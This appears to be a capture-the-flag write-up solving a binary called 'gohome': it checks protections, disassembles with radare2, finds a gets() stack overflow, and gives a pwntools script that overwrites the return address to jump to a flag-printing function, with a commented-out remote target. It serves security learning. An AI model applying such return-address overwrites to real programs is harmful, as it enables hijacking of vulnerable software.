 1. use `file <file>` to take a look. It's a ELF file, not stripped.
```bash
$ file gohome
gohome: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, 
BuildID[sha1]=63cc39d0f4f93acc2ee50813f4f82c8ed43d9135, not stripped
```

2.use `gdb-peda checksec` to make sure whether it have protection of the program. by the result, we know that only NX protection is open.
![Image](https://i.imgur.com/YsoMUcS.png) 


3. `r2 <file>`, `aa`, `afl`, there's some function we can pay attention to. 
![Image](https://i.imgur.com/EFXiT2J.png)


4. first, `s main`, `VV` to take a look.
![Image](https://i.imgur.com/9eNQ6Rq.png)

5. by the code, we know that the program will exit after gets function get our user input. And our input will be put at **var_20h(rpb-0x20)**. Let's go back to see Billyhouse function.

![Image](https://i.imgur.com/RISfNKD.png)

6. we notice that this program will print flag which we want to get. So, what we need to do is to let the program jump here to run this function.

7. count to overwrite the stack and rbp address until the return address. we need to BOF all of them, put the Billyhouse function address to the return address. Bellow is our exploit script.

```python
from pwn import *

r = process('./gohome')
#r = remote('120.114.62.211', 6126)

payload = b'A'*40

r.sendline(payload + p64(0x004006c6))  #if 64 bit ,or 32bit use p32

r.interactive()
```

8. run the program and we can get the flag.